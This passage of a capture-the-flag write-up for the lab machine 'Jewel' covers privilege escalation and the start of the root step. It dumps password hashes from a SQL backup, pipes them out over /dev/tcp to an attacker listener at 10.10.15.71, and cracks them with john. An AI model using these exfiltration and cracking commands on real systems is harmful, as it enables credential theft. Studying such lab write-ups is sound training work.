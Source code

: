 
# Privilege Escalation

* Running linpeas with `-a` one funny thing happened i get sudo password of user bill:

  ![](/assets/img/posts/jewel/linpeas-bruteforce.png)

  * but i don't thing that this is the intentional way.

* digging more i found a unusual file in `/var/backups/` dump_2020-08-27.sql.

	  (remote) bill@jewel.htb:/var/backups$ grep -E "bill"\|"jennifer" dump_2020-08-27.sql 
	  2       jennifer        jennifer@mail.htb       2020-08-27 05:44:28.551735      2020-08-27 05:44:28.551735      $2a$12$sZac9R2VSQYjOcBTTUYy6.Zd.5I02OnmkKnD3zA6MqMrzLKz0jeDO
	  1       bill    bill@mail.htb   2020-08-26 10:24:03.878232      2020-08-27 09:18:11.636483      $2a$12$QqfetsTSBVxMXpnTR.JfUeJXcJRHv5D5HImL0EHI7OzVomCrqlRxW

  * these hashes are different form last time and when try to crack them i successfully crack bill hash and get the same password that linpeas cracked.

		(remote) bill@jewel.htb:/var/backups$ grep -E "bill"\|"jennifer" dump_2020-08-27.sql | awk '{print $2":"$8}' > /dev/tcp/10.10.15.71/4141

		❯ nc -nvlp 4141 > hashes
		listening on [any] 4141 ...
		connect to [10.10.15.71] from (UNKNOWN) [10.10.10.211] 41058
		❯ cat hashes
		jennifer:$2a$12$sZac9R2VSQYjOcBTTUYy6.Zd.5I02OnmkKnD3zA6MqMrzLKz0jeDO
		bill:$2a$12$QqfetsTSBVxMXpnTR.JfUeJXcJRHv5D5HImL0EHI7OzVomCrqlRxW

		❯ john hashes -w=/usr/share/wordlists/rockyou.txt
		<snip>
		❯ john hashes --show
		bill:spongebob

		1 password hash cracked, 1 left

# Root 

* running `sudo -l` with user bill password asking for `Verification code`.

	  (remote) bill@jewel.htb:/home/bill$ sudo -l
	  [sudo] password for bill: 
	  Verification code: 
	  You type like I drive.
	  [sudo] password for bill: 
	  Verification code: 
	  Take a stress pill and think things over.
	  [sudo] password for bill: 
	  Verification code: 
	  sudo: 3 incorrect password attempts
